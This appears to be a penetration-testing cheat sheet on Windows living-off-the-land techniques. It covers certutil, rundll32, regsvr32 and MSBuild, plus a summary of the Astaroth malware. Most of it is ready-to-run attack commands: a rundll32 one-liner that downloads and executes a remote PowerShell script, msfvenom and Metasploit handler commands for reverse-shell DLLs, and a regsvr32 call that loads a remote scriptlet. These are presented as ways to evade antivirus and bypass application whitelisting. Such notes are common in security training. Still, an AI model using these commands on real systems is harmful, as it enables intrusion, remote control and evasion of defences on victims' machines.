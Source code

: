 ##### The basics
Living off the land means using whatever you find there. For Windows, this means microsoft-signed binaries.
These binaries almost never get caught by antiviruses or monitoring softwares.

#### Sysinternals
All the Sysinternals tools should be allowed on a system, and can be downloaded from https://live.sysinternals.com/.
It has some of the most useful tools, like:
```
AccesChk - Check permissions of a file
PsExec - Can execute commands remotely (ex: through AD), and store credentials.
```

#### LOLBAS
The [LOLBAS](https://lolbas-project.github.io/#) project is a library of scripts signed by Microsoft for living off the land, similar to GTFOBins, but for living off the land.


#### Living off the land examples
##### Certutil
```
certutil -encode decoded.txt encoded.txt
certutil -decode encoded.txt decoded.txt
```

##### Rundll32
To execute using `rundll32.exe`:
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://IP/script.ps1');");
// Replace the "powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://IP/script.ps1');"  with a custom payload.
```

#### Bypassing application whitelisting
Application whitelisting is used to heavily secure Windows machines. It's a rule-based whitelist, where any binary on the list is allowed to execute.
The LOLBAS binaries are used internally by the system, so they are nearly never whitelisted.
##### Regsvr32
Regsvr32 is used to register and unregister DLLs. 
```
C:\Windows\System32\regsvr32.exe // 32-bits
C:\Windows\SysWOW64\regsvr32.exe // 64-bits
```
First, create the payload:
```
// MSFConsole:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f dll -a x86 -o shell.dll
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost $IP;set lport $PORT;exploit"
// Non-MSF:
msfvenom -p windows/shell/reverse_tcp LHOST=tun0 LPORT=4444 -f dll -a x86 -o shell.dll
```
Then, run the exploit:
```
c:\Windows\System32\regsvr32.exe c:\Windows\Temp\shell.dll

// NOTE: this command is also possible, but the exact workings are difficult. for more info: https://www.hackingarticles.in/windows-exploitation-regsvr32/
c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct C:\Windows\Temp\shell.dll
```

##### PowerLessShell / MSBuil.exe
When powershell is blocked, you can abuse `MSBuild.exe` using PowerLessShell:
First, find the location of `MSBuild.exe` (It should be in `C:\Windows\Microsoft.NET\Framework\$VERSION\MSBuild.exe`)
```
// If you're using metasploit, follow these:
// Generate a HTTPS payoad
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=$IP LPORT=4444 -f psh-reflection -o https_reflect.ps1
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost $IP;set lport 4444;exploit"
// End of metasploit instructions

python2 PowerLessShell.py -type powershell -source shell.ps1 -output exploit.csproj
// On victim-side:
c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Windows\Temp\exploit.csproj
```

##### Bash.exe
`bash.exe` is used for the WSL (Windows Subsystem for LInux). It's nearly the same as regular bash, but it can also execute `.exe` files.


#### Real life case: Astaroth
- A **WMIC** command is executed to download and run Javascript code.
- Abusing the **BITSadmin** to download multiple binaries from the command and control server. Interestingly, in some cases, the malware uses YouTube channel descriptions to hide their C2 server commands.
- Using the BITSadmin, ADS technique, to hide their binaries within the system for their persistence.
- A **Certutil** tool is used to decode a couple of downloaded payloads into DLL files.
- The DLL files are executed using **Regsvr32**.